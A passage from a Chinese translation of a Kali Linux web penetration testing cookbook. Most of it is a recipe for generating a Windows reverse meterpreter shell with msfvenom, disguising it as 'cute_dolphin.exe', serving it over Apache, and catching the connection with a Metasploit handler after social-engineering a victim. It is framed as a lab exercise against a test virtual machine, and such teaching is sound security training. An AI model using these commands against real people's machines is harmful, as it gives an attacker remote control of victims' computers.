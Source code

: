 要注意，`body `中的`onload`事件并不调用`frm1.submit() `而是` frm1.submit. click()`。这是因为当我们使用`submit`作为表单元素的名称时，表单中的`submit()`函数会被这个元素覆盖掉（这里是提交按钮）。我们并不打算修改按钮名称，因为它是原始站点需要的名称。所以我们使`submit`变成一个按钮，而不是隐藏字段，并使用它的`click`函数将值提交到原始站点。我们同时将表单中的字段值设置为我们之前用于储存用户数据的变量值。

## 9.3 使用 Metasploit 创建反向 shell 并捕获连接

当我们执行客户端攻击的时候，我们能够欺骗用户来执行程序，并使这些程序连接回控制端。

这个秘籍中，我们会了解如何使用 Metasploit 的 msfvenom 来创建可执行程序（反向 meterpreter shell），它会在执行时连接我们的 Kali 主机，并向我们提供用户计算机的控制。

### 操作步骤

1.  首先，我们要创建我们的 shell。在 Kali 中打开终端并执行下列命令：

    ```
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4443 -f exe > cute_dolphin.exe
    ```
    
    这会创建名为`cute_dolphin.exe`的文件，这是反向 meterpreter shell，反向意味着它会连接回我们，而不是监听我们的连接。
    
2.  下面，我们需要为我们“可爱的海豚”将要创建的连接建立监听器。在 MSFconsole 的终端中：

    ```
    use exploit/multi/handler 
    set payload windows/meterpreter/reverse_tcp 
    set lhost 192.168.56.1 set lport 4443 
    set ExitOnSession false 
    set AutorunScript post/windows/manage/smart_migrate 
    exploit -j -z 
    ```
    
    就像你看到的那样，LHOST 和 RPORT 是我们用于创建`exe`文件的东西。这是程序将要连接的 IP 地址和 TCP 端口。所以我们需要在这个 Kali 的网络接口和端口上监听。
    
3.  我们的 Kali 已准备就绪，现在是准备攻击用户的时候了，我们以 root 启动 Apache 服务并运行下列代码：

    ```
    service apache2 start
    ```
    
4.  之后，将恶意文件复制到 web 服务器文件夹内。

    ```
    cp cute_dolphin.exe /var/www/html/
    ```
    
5.  假设我们使用社会工程并使我们的受害者相信这个文件是需要执行来获得一些好处的东西。在 Windows 客户端虚拟机内，访问` http://192.168.56.1/cute_dolphin.exe`。

6.  你会被询问下载还是运行这个文件，出于测试目的，选择`Run`（运行），再被询问时，再次选择`Run`。

7.  现在，在 Kali MSFCONSOLE 的终端中，你会看到建立好的连接：

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/9-3-1.jpg)

8.  我们在后台运行连接处理器（`-j -z`选项）。让我们检查我们的活动会话：

    ```
    sessions
    ```
    